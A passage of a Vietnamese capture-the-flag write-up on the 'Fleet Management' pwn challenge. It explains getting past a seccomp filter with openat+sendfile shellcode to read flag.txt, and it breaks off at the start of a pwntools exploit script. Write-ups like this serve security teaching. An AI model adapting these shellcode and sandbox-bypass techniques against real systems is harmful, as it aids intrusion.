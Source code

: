 p.interactive()
```

---------

9 . Fleet Management (shellcode openat+sendfile)
----
- 1 baì khá lòng vòng, đến cuối cùng là thực thi shellcode =)))

thường những bài shellcode thì nó sẽ malloc hoặc mmap và trao quyền thực thi luôn nên NX tắt kh cần lo ngại :v
![image](https://hackmd.io/_uploads/S12fed5-ye.png)



hàm quan trọng nhất ở đây  
![image](https://hackmd.io/_uploads/SJ_Hg_9Z1x.png)

nó sẽ malloc 1 vùng heap cho ta , dùng mprotect để thay đổi quyền , và cho read vào 60 byte 

- hàm check thì ta sẽ check bằng seccomp 


![image](https://hackmd.io/_uploads/Hk1zWO5byl.png)

- target là dùng openat và sendfile 

- ta có thể viết bằng code C để dễ hiểu như ông này 

https://7rocky.github.io/ctf/htb-challenges/pwn/fleet-management/

script sẽ dùng cả 2 cách =)))

```
from pwn import *

context.binary = exe = ELF('./fleet_management',checksec=False)
context.arch = 'amd64'
p = process()
#gdb.attach(p,gdbscript='''
#           brva 0x0000000000001442
#           ''')

#openat(fd='AT_FDCWD', file='flag.txt', oflag='O_RDONLY')
# push b'flag.txt\x00

#sendfile(out_fd=1, in_fd='rax', offset=0, count=0x100)
